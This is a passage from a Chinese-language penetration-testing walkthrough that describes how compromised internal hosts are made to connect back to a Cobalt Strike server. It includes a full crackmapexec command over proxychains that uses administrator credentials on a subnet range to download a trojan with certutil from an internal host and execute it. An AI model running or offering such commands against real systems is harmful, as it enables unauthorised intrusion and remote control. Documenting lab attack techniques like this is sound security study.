 ![image-20230630100632235](assets/jdLFoA9JQZVXahC.png)

#### 6.2.2.4. 上线操作

这里需要先使用cs设置转发上线，并设置一个木马，让目标主机下载，然后在去执行，实现上线操作。这里就不演示如何设置cs的转发上线，直接生成木马吧。

当然我这里是使用反向的，懒得使用正向的再去连接了，可以看是成功上线了两台。

```
proxychains crackmapexec smb 192.168.20.10-30 -u administrator -p 'admin@123' -x 'cmd.exe /c certutil -urlcache -split -f http://192.168.20.20/2222.exe c:/2222.exe & c:/2222.exe' --local-auth
```

![image-20230630101343127](assets/KGiv173HczMYBPd.png)

